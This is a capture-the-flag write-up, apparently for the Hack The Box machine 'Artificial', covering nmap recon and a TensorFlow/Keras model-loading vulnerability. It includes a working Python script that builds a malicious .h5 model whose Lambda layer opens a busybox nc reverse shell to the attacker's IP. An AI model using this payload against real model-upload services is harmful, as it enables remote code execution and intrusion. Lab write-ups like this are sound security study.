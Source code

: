 starting with initial recon 

```
nmap -sV -sC -oN nmap.txt  -p- 10.10.11.74 --min-rate=5000
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-17 16:21 CET
Nmap scan report for 10.10.11.74 (10.10.11.74)
Host is up (0.68s latency).
Not shown: 48960 filtered tcp ports (no-response), 16573 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://artificial.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 218.67 seconds
```

adding the domain to our `/etc/hosts `

`sudo echo "10.10.11.74     artificial.htb" >> /etc/hosts`

simple ass looking ui  

<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251017162502.png">

registering a new account and logging in with it 

<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251017162718.png">

this will lead us to the page where it present us with this .. 

<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251017162855.png">

checking the `requirement.txt` and `Dockerfile` 

`Dockerfile`
```
FROM python:3.8-slim

WORKDIR /code

RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm -rf /var/lib/apt/lists/*

RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl

ENTRYPOINT ["/bin/bash"]
```

`requirements.txt`
```
tensorflow-cpu==2.13.1
```

this version of tensorflow library might have some vurnabilitys .  

after searching i found this 

[https://github.com/advisories/GHSA-x4wf-678h-2pmq](https://github.com/advisories/GHSA-x4wf-678h-2pmq)

looking for POC to recreate the exploit 

[https://mastersplinter.work/research/tensorflow-rce/](https://mastersplinter.work/research/tensorflow-rce/)

the idea is to generate a `.h5` model that contains our malicious command so we can import it and get a reverse shell 

to recreate the exploit we need first to install tensorflow on our machine  (which is annoying task) 


```
import tensorflow as tf

def exploit(x):
    import os
    os.system("busybox nc 10.10.15.53 4444 -e /bin/sh")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

I always use busybox since its found on every linux distro . 

--- 
generating our model 
```cmd
python3 exploit.py 
```

opening a listener on our machine 
<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251017165134.png">
and finally importing our model will give us a shell 



